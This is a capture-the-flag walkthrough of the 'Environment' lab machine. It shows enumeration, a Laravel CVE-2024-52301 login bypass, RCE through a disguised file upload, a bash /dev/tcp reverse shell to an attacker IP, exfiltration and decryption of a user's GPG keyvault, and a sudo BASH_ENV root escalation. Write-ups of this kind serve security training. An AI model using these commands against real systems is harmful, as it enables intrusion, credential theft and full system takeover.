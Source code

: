 # Environment
Environment is a medium-difficulty Linux machine that explores weaknesses in PHP and the Laravel framework. For privilege escalation, it highlights how overly permissive file execution rights can be abused to gain elevated access.

## Enumeration
We begin with an Nmap scan.

### NMAP
```
sudo nmap -sVC --min-rate 1000 10.10.11.67
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 04:43 IST
Nmap scan report for 10.10.11.67
Host is up (0.37s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.69 seconds
```

Apparently, the server has 2 ports open (22 - ssh and 80 - HTTP). The web service responds to the domain name - `environment.htb` and redirects any user to trying to connect through the IP address. So, we add the the domain to our `/etc/hosts`.
```
echo '10.10.11.67  environment.htb' | sudo tee -a /etc/hosts
```

After adding, it is now time to visit the [site](http://environment.htb).

![Website](./Landing.png)

The website only shows a landing page by default and there are no hidden paths revealed through this page.


### FFuF

The next step is to use FFuF to fuzz through the site for hidden pages and directories.
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://environment.htb/FUZZ -t 128
```
The scan reveals an interesting `/login` page.

![Login Page](./login.png)


## Foothold

On this page, we see a *Remeber Me* option. To get an internal server error that might leak some code (if the environment is in debug mode), we will intercept a login request and change the value of this parameter to a data type other than Boolean. For example, we can change it to an integer so that it becomes `remember=90`.

![Intercepted Request](./intercepted.png)

This gives us a lot of useful information as debug mode is active on this site.

![Error-500](./errorpg.png)

This page shows that the website is running `PHP 8.2.28 — Laravel 11.30.0` and in `preprod` environment, it logs in the user with `user_id = 1` by default.

On searching the web, we find that this version is vulnerable to [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301) and we might be able to change the environment of the website using `--env=preprod`.

![Admn-Dashboard](./admin-dash.png)

*Note: The request needs to be minimal just like in the screenshot. The important parameters that need to remain are `_token` and `?--env=preprod`. The method is required to be **POST**.

On the profile page, we see a file upload parameter (to upload a profile picture).

![Profile Page](./Profile.png)

We will use this upload functionality to obtain RCE (Remote Code Execution) on the web server. For that, we upload a jpeg image to obtain the form boundary and then modify the request as depicted.

![Fake File Upload](./fakefile.png)

The response gives us the url to the uploaded file and RCE works!

![RCE](./RCE.png)

To obtain a reverse shell, we use the decoder tab from BurpSuite to encode our shell payload and set up a listener using `netcat`.

```
nc -lvnp 4444
```

![Burp Encoder](./encoder.png)
```
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/4444 0>&1'
```

On submitting this encrypted payload as the value of `cmd` parameter on our PHP page, a reverse shell is successfully obtained.

![rshell](./rshell.png)

**We find the user flag at `/home/hish/user.txt`.**


To obtain an ssh connection as Hish we first zip and download the `.gnupg` directory and the `backup/keyvault.gpg` file in his home folder.

![Copying gnupg files](./keyvault.png)

To zip,
```
zip -r /tmp/gnupg.zip .gnupg
```

And, in the `/tmp` directory,
```
cd /tmp
python3 -m http.server &
```

This creates a web server in the `/tmp` directory and we are able to download the file from http://environment.htb:8000.

On our local machine, we download and unzip the `gnupg.zip` file. This gives us the folder - `.gnupg`. We can decrypt it as follows through the `gpg` command. Inside `.gnupg`,
```
unzip gnupg.zip
export GNUPGHOME=$(pwd)/.gnupg
gpg --homedir ./.gnupg --decrypt keyvault.gpg
```

This reveals the passwords that Hish uses on different sites including _environment.htb_


## Privelege Escalation

We successfully login as Hish through the password obtained from his keyvault using ssh.

```
ssh hish@environment.htb
```

Running the command
```
sudo -l
```
reveals
```
User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

This can be easily leveraged to obtain root privileges.
For that, we execute the following to set SUID as root on `/bin/bash`.
```
cat > root.sh << 'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF
```
```
chmod +x root.sh
sudo BASH_ENV=root.sh /usr/bin/systeminfo
```
And finally,
```
/bin/bash -p
```

This gives us a shell with root privileges. To read the root flag, 
```
cat /root/root.txt
```

This wraps up the Environment machine.